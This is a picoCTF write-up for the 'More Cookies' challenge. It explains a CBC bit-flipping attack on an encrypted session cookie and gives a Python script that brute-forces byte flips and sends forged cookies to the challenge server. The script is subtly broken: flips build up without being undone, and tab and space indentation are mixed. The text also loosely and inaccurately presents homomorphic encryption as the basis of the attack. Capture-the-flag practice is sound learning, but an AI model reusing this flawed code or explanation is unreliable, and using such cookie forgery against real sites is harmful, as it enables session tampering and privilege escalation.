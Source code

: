 ```yaml
---
description: 'Author: madStacks'
---
```


## Problem Description

I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! [http://mercury.picoctf.net:10868/](http://mercury.picoctf.net:10868/)

# Solution

![](/assets_md/Pasted%20image%2020220527163955.png)

![](assets_md/Pasted%20image%2020220527172003.png)


**Decoding Base64**

```bash
[Ishikawa WebExploitation] $ echo 'SXNGUEd3SFhpZFFKTDJBME5IZ3BsaW1RV0FjQm93eVB6ZmZrbS9yaVVtdnNkYzNtNkQrY3cwbE1tSWE4QzgvR2ZEdVNKaHRlWXhEZWNKS2E2OUEvSkV0VkNOZE9iQUxjcjRuV0JTNzE4QWQ3VjVaNlk0NFp1SHB2dnhHTVJYaVU=' | base64 -d
IsFPGwHXidQJL2A0NHgplimQWAcBowyPzffkm/riUmvsdc3m6D+cw0lMmIa8C8/GfDuSJhteYxDecJKa69A/JEtVCNdObALcr4nWBS718Ad7V5Z6Y44ZuHpvvxGMRXiU                 
```

**Using Homomorphic Encryption**

Homomorphic encryption is a new type of encryption which allows to perform computation without decrypting data.

### [CBC Bit-Flip Attack](https://zhangzeyu2001.medium.com/attacking-cbc-mode-bit-flipping-7e0a1c185511)

Example : [AES-CBC bit flipping Attack by dr3dd](https://dr3dd.gitlab.io/cryptography/2019/01/10/simple-AES-CBC-bit-flipping-attack/)

**Exploit Code**

```python
import requests
from base64 import b64encode, b64decode
from tqdm import tqdm
from queue import Queue

cookie_str = 'VHR0WUVlRk0wLzhUR00xTC8yS2FsSEU1MU5OaGUrM3lEaWxxVXo4TktjTmN6cVlYSy9QbjJVS0dLR2tUbVdOS1lCU3E2TU1BbGxPMnk2aXhSeUtuRWQ4VE52WDh1VjNscmYvZ3FpQ2dEWFZmd1UrdmpMRUtQWjhBQlZPUkdrWFk='
url = 'http://mercury.picoctf.net:10868/'

# cookie in encoded 2 times 
b64_cookie = b64decode(cookie_str).decode()
raw_cookie = bytearray(b64decode(b64_cookie))

flip_set = Queue()

def fetch_query(position, bit):

    raw_cookie[position] = raw_cookie[position]^bit
    forge_b64 = b64encode(b64encode(bytes(raw_cookie))).decode()

    req = requests.get(url, cookies={'auth_name': forge_b64})

    if 'picoCTF{' in req.content.decode():
        print(f"Cookie found @ {position}:{bit} : ", end='')
        print(req.text.split('code>')[1].split('</')[0])
        global flip_set

        while not flip_set.empty():
            flip_set.get_nowait()


def main():

    # fliping up to 16 positions 
    for i in range(16):
        # fliping upto 128 bits XOR with up to 128 values in ASCII Table
        for j in range(128):
            flip_set.put((i,j))


    for _ in tqdm(range(flip_set.qsize()), desc="Attack Progress :"):
		if not flip_set.empty():
			pos, bit =  flip_set.get_nowait()
			fetch_query(pos, bit)
			flip_set.task_done()

main()
```

![](assets_md/Pasted%20image%2020220529102107.png)
